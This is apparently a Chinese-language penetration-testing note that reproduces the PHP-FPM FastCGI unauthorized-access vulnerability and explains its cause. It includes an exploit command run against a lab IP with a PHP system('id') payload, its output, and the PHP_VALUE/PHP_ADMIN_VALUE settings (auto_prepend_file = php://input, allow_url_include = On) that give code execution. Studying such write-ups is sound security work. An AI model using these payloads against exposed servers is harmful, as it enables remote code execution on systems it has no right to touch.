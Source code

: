 ```yaml
---
title: PHP-FPM Fastcgi 未授权访问漏洞
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-03T20:33:40+08:00
categories: 
- 渗透测试
- 漏洞复现
- Php
---
```


### 漏洞复现

脚本地址:

https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

```
┌──(root㉿kali)-[~/Desktop/tools/php-cve]
└─# python fpm.py "192.168.121.140" -c "<?system('id');?>" -p "9000" /usr/local/lib/php/System.php
X-Powered-By: PHP/8.1.1
Content-type: text/html; charset=UTF-8

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

该脚本包含4个参数，需要手动设置目标服务器下具有的php文件用于执行代码

![fpm](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\fpm.png)

### 原理分析

#### Fastcgi

FastCGI（Fast Common Gateway Interface）是一种用于处理动态内容的协议，它可以提高Web服务器和外部程序之间的通信效率。与传统的CGI协议相比，FastCGI能够更高效地处理动态请求，并且具有更好的性能和可伸缩性。FastCGI通过在Web服务器和外部程序之间建立一个持久的连接，可以重用进程或线程来处理多个请求

```
FastCGI的工作流程如下：
Web服务器接收到客户端的请求。
Web服务器将请求转发给FastCGI进程管理器。
FastCGI进程管理器选择一个可用的FastCGI应用程序进程。
Web服务器将请求数据发送给FastCGI应用程序进程。
FastCGI应用程序进程处理请求并生成响应数据。
FastCGI应用程序进程将响应数据发送回Web服务器。
Web服务器将响应数据返回给客户端。
```

**Record**

```c
typedef struct {
  /* Header */
  unsigned char version; // 版本
  unsigned char type; // 本次record的类型
  unsigned char requestIdB1; // 本次record对应的请求id
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // body体的大小
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 

  /* Body */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```

fastcgi通过record头中的contentLength来获取需要从tcp数据流中需要读取的数据大小

**Type**

![record-type](E:\笔记软件\笔记\渗透测试\漏洞复现\Php\record-type.png)

fastcgi中的type有上述图中的7种，需要注意的是第四种，也是本漏洞所利用的点，当接收到type为4时，将record的body解析为key-value的形式存储在环境变量中

```c
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;

typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

1. key、value均小于128字节，用`FCGI_NameValuePair11`
2. key大于128字节，value小于128字节，用`FCGI_NameValuePair41`
3. key小于128字节，value大于128字节，用`FCGI_NameValuePair14`
4. key、value均大于128字节，用`FCGI_NameValuePair44`

#### PHP-FPM

php-fpm是一种fastcgi进程管理器，当Web服务器接收到对PHP文件的请求时，它通过FastCGI协议将请求转发给PHP-FPM。PHP-FPM将请求分配给进程池中的一个可用的PHP工作进程来处理。一旦PHP脚本的执行完成，响应将被发送回Web服务器，由其传递给客户端。

当用户访问`http://127.0.0.1/index.php?a=1&b=2`时，若web目录是/var/www/html，则nginx会将请求解析为key_value

```nginx
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

SCRIPT_FILENAME参数指向绝对路径的php文件，即告诉服务器需要执行哪个文件

#### 任意代码执行

当pgp-fpm的9000端口暴露在公网上时，我们可以自行构造fastcgi协议与fpm进行通信，前提条件是我们所选的SCRIPT_FILENAME需要在目标服务器上存在，并且是绝对路径，所以通常选择的都是php安装源所拥有的默认php文件，例如/usr/local/lib/php/PEAR.php

怎么让目标php文件执行我们的命令，这就需要用到php的配置项auto_prepend_file`和`auto_append_file

```
auto_prepend_file（自动前置文件）：该指令用于指定一个文件路径，该文件将在每个PHP脚本执行之前自动包含。这意味着在执行脚本的代码之前，会先执行auto_prepend_file中指定的文件中的代码。这个文件通常用于定义全局变量、函数或者执行一些必要的初始化操作。

auto_append_file（自动后置文件）：该指令用于指定一个文件路径，该文件将在每个PHP脚本执行之后自动包含。这意味着在执行完脚本的代码后，会执行auto_append_file中指定的文件中的代码。这个文件通常用于执行一些清理操作、记录日志或者输出一些额外的内容。
```

通过指定auto_prepend_file为`php://input`在每个文件执行前包含post提交的内容(需要开启allow_url_include启动远程文件包含选项)

auto_prepend_file的值通过php-fpm中的两个环境变量来设置PHP_VALUE`和`PHP_ADMIN_VALUE；对这两个环境变量进行设置

```c
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
```

与请求一同发送，就可以执行post提交的任意参数

